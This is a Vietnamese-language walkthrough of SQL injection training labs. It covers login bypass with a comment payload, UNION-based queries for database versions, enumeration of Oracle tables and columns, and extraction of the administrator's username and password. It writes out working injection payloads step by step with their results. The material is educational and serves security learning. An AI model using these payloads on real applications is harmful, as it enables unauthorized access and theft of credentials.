## SQL injection vulnerability allowing login bypass

Mục tiêu: dựa vào lỗ hổng SQL Injection tại chức năng đăng nhập để đăng nhập thành công mà không cần tài khoản hợp lệ.


Trước khi phân tích, thử đăng nhập một tài khoản ngẫu nhiên:

Username: administrator

Password: anything

Kết quả trả về: đăng nhập thất bại


Điều này cho thấy:

- Không thể truy cập trực tiếp bằng cách đoán password
- Cần tìm hướng khai thác khác, từ đó nghi ngờ có thể có lỗ hổng injection

Backend có thể sử dụng câu query dạng:
```
SELECT * FROM users 
WHERE username = 'input_username' 
AND password = 'input_password';
```
Dữ liệu đầu vào được chèn trực tiếp vào query, do đó có khả năng tiếp cận qua SQL Injection.

Tại username, nhập:
```
administrator'--
```
Với password nhập bất kỳ

Sau khi xác nhận đăng nhập, câu lệnh SQL trở thành

SELECT * FROM users 
WHERE username = 'administrator'--' 
AND password = 'anything';


Lý do thêm đoạn -- là do -- được dùng để kí hiệu comment trong SQL, làm phần lệnh phía sau (điều kiện liên quan về password) bị vô hiệu.

Từ đó, việc đăng nhập vẫn sẽ được thông qua, bởi câu lệnh đã trở thành:
```
SELECT * FROM users 
WHERE username = 'administrator';
```



## SQL injection attack, querying the database type and version on MySQL and Microsoft
](images/sqli_lab_04/lab04.01.png)
Mục tiêu: hiển thị chuỗi phiên bản của database bằng cách inject payload có chứa @@version.

Đầu tiên, truy cập vào danh mục "Gifts", sau đó thử thêm dấu ```'``` hoặc ```"``` vào cuối tham số URL để xem query sử dụng loại dấu nháy nào.


Sau khi thử, ta xác định được rằng query sử dụng dấu nháy đơn ```'```:


Tiếp theo, dùng mệnh đề ORDER BY để tìm số lượng cột trong query gốc.

Thử payload:
```
filter?category=Gifts' ORDER BY 4-- -
```


Nếu xảy ra lỗi server như ảnh, giảm dần số xuống. Khi gửi request và nhận được phản hồi 200 OK, ta xác định được số cột hợp lệ.
Trong trường hợp này, kết luận query có 2 cột.


Khi đã biết có 2 cột, ta tạo payload phù hợp:
```
Gifts' UNION SELECT NULL, NULL-- -
```


Mục tiêu là hiển thị version của database, nên thay một giá trị NULL bằng @@version:
```
Gifts' UNION SELECT @@version, NULL-- -
```
Hoặc:
```
Gifts' UNION SELECT version(), NULL-- -
```
Khi gửi payload này, chuỗi version của database sẽ hiển thị trên trang, và hoàn thành bài lab.


## SQL injection attack, listing the database contents on Oracle
Mục tiêu:

Xác định tên bảng chứa thông tin usernames và passwords.

Xác định các cột trong bảng đó.

Trích xuất toàn bộ nội dung bảng (username và password).

Đăng nhập với tài khoản administrator để hoàn thành lab.

Điều kiện thành công: Truy xuất được thông tin xác thực và đăng nhập thành công với tài khoản administrator.


 Note:
 - Oracle yêu cầu mọi truy vấn SELECT phải có mệnh đề FROM chỉ định bảng dữ liệu.
 - Nếu ta thực hiện UNION SELECT 'abc' mà không có bảng, truy vấn sẽ bị lỗi.

Giải pháp: Sử dụng bảng tích hợp sẵn của Oracle là dual:
```
UNION SELECT 'abc' FROM dual
```
Ta sẽ tiến hành sử dụng kĩ thuật UNION-Based: 

```
Pets'UNION SELECT NULL,NULL FROM dual-- -
```


Và bài này chúng ta sẽ không thể truy cập vào trong database infomation_schema nữa 


Chúng ta sẽ chuyển sang sử dụng database của Oracle là: all_tables

Dựa vào những lí thuyết vừa tìm kiếm được, tôi sẽ tiến hành việc tìm ra toàn bộ các bảng có trong databse.

```
Pets' UNION SELECT table_name,NULL FROM all_tables--
```


Giờ thì chúng ta cần tìm ra các bảng chứa chữ user rồi bruteforce thôi:
```
USERS_ANRTSR
SDO_PREFERRED_OPS_USER
APP_USERS_AND_ROLES
```
Và chúng ta sẽ tiến hành kiểm tra các cột chứa trong các bảng 

```Pets' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS_ANRTSR'--```

Từ đó chúng ta đã tìm được tên cột chứa username và cột chứa password:



Và nhiệm vụ của chúng ta là tìm login với tài khoản của administrator.
Vậy nên payload sẽ là:
```
Pets' UNION SELECT USERNAME_DEOXBS,PASSWORD_RBNLKB FROM USERS_ANRTSR WHERE USERNAME_DEOXBS='administrator'-- 
```



## SQL injection UNION attack, finding a column containing text
Mục tiêu: chèn một chuỗi văn bản cụ thể ('DuXBqy') vào kết quả trả về của ứng dụng bằng cách sử dụng kỹ thuật SQL injection UNION attack.

Trước tiên, chúng ta cần tìm số lượng cột mà truy vấn SQL ban đầu đang trả về. Ta sử dụng lệnh ORDER BY để kiểm tra.

- Thử với ```ORDER BY 3--```: Trang web tải thành công.

- Thử với ```ORDER BY 4--```: Trang web trả về Internal Server Error.


=> Kết luận: Truy vấn gốc đang sử dụng 3 cột.


Sau khi biết có 3 cột, ta sử dụng UNION SELECT với các giá trị NULL để tìm cột nào có thể chứa dữ liệu kiểu văn bản (text).

Thử chèn ```UNION SELECT NULL, NULL, NULL--``` vào tham số category. Kết quả thành công, không có lỗi.


Bây giờ, ta thay thế từng NULL bằng một chuỗi ký tự (ví dụ: ```'a'```) để kiểm tra xem cột đó có chấp nhận kiểu dữ liệu văn bản hay không.

Chúng ta thực hiện thử nghiệm từng cột một:

Thử cột 1: ```UNION SELECT 'a', NULL, NULL--``` -> Lỗi Internal Server Error.

Thử cột 2: ```UNION SELECT NULL, 'a', NULL--``` -> Thành công! Chuỗi 'a' hiển thị trên giao diện trang web.


Thử cột 3: ```UNION SELECT NULL, NULL, 'a'--``` -> Lỗi Internal Server Error.


=> Kết luận: Cột thứ 2 là cột có thể hiển thị dữ liệu kiểu văn bản.

Cuối cùng, thay thế ```'a'``` bằng chuỗi yêu cầu của đề bài là 'DuXBqy'.

Payload cuối cùng: ```' UNION SELECT NULL, 'DuXBqy', NULL--```

](images/sqli_lab_08/lab08.09.png)


## SQL injection UNION attack, retrieving multiple values in a single column
Lab này có lỗ hổng SQL Injection trong bộ lọc danh mục sản phẩm (product category filter).
Kết quả truy vấn được hiển thị trực tiếp trên response của ứng dụng, nên ta có thể dùng UNION-based SQL injection để lấy dữ liệu từ các bảng khác.

Cơ sở dữ liệu có một bảng tên là users với hai cột:
- username
- password


Mục tiêu: Thực hiện UNION attack để lấy toàn bộ username và password, sau đó dùng thông tin này để đăng nhập với tài khoản administrator.

Đầu tiên, xác định query dùng dấu ```'``` hay ```"```

Dùng ```ORDER BY``` để tìm số lượng cột

Sau khi test:

Query dùng dấu ```'```
Khi dùng ```ORDER BY 2``` mà trả về ```200 OK``` → suy ra có 2 cột

Payload:

```filter?category=Petts' ORDER BY 2-- -```

Để kiểm tra khả năng dùng UNION và xác nhận số cột:

```filter?category=Pets' UNION SELECT NULL,NULL-- -```
](images/sqli_lab_09/lab09.03.png)

Yêu cầu bài là truy xuất nhiều giá trị trong một cột.
](images/sqli_lab_09/lab09.04.png)

Trước tiên, kiểm tra database:

```filter?category=Pets' UNION SELECT NULL, version()-- -```
](images/sqli_lab_09/lab09.05.png)

Theo đó, payload nên dùng là:

```filter?category=Pets' UNION SELECT NULL, username||':'||password FROM users WHERE username='administrator'-- -```
